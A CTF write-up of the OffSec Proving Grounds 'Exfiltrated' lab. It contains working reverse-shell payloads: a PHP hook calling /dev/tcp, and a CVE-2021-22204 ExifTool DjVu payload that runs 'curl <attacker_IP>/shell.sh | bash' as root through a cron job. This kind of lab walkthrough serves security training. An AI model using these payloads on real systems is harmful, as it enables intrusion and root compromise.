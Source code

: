 ```yaml
---
title: "Proving grounds Practice: Exfiltrated"
layout: post
date: 2023-08-26 06:00
categories: writeup
---
```


Proving grounds Practice - Exfiltrated CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

## PORT: 80 | Web

http://exfiltrated.offsec/

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/admin-dashboard.png)

### Admin Dashboard

http://exfiltrated.offsec/panel/

### Password

admin:admin

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/admin-dashboard2.png)

Navigate to System->Hooks-> Edit sitemapGeneration

Add the below reverse shell code and click save.

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/1234 0>&1'");
```
![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/shell1.png)

Trigger shell by clicking the generate sitemap menu.

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/shell2.png)

**Initial Foothold obtained**

## Privilege Escalation

Check for cron jobs

```sh
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *	* * *	root	bash /opt/image-exif.sh
#
```

Cronjob running a script `/opt/image-exif.sh`

```sh
cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

It appears to be there is a vulnerability for ExifTool versions 7.44 and above [CVE-2021-22204](https://nvd.nist.gov/vuln/detail/CVE-2021-22204).

Install `djvulibre-bin`.

As per the recon the cron job has been running the script as root user.

Create a reverse shell script `shell.sh`.

```sh
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'
```

Create a file as exploit and add the below content.

```sh
(metadata "\c${system ('curl http://<attacker_IP>:<PORT>/shell.sh | bash')};")
```

The attacker IP and PORT is specified on the above to download the `shell.sh` file into the attacking machine to obtain the root shell.

Now create djvu file and rename it to `jpg`.

```sh
djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit

cp exploit.djvu exploit.jpg
```

Now curl to download the `exploit.jpg` file into the attacking machine's uploads folder `/var/www/html/subrion/uploads`.

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/transfer.png)

Once the `exploit.jpg` is downloaded into the uploads folder the cronjob runs the script, and when the exiftool reads the metadata from the `exploit.jpg` file it executes the command we have binded in the image.

Then it downloads the reverse shell script `shell.sh` from the attacker's machine and runs it as root.

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
